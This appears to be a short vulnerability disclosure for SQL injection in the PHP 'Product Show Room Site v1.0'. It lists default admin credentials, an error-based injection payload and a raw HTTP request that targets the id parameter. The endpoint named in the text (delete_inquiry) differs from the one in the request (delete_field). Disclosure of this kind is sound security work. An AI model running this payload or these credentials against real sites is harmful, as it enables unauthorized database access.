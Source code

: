 # Product Show Room Site v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15370/product-show-room-site-phpoop-free-source-code.html

Vulnerability File: /psrs/classes/Master.php?f=delete_inquiry

Vulnerability location: /psrs/classes/Master.php?f=delete_inquiry, id

Current database name: hsrs_db ,length is 7

[+] Payload: id=4' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /psrs/classes/Master.php?f=delete_field HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

id=4' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/171827590-ddafbe7f-5669-41dc-a009-db02bd0e3d8d.png)
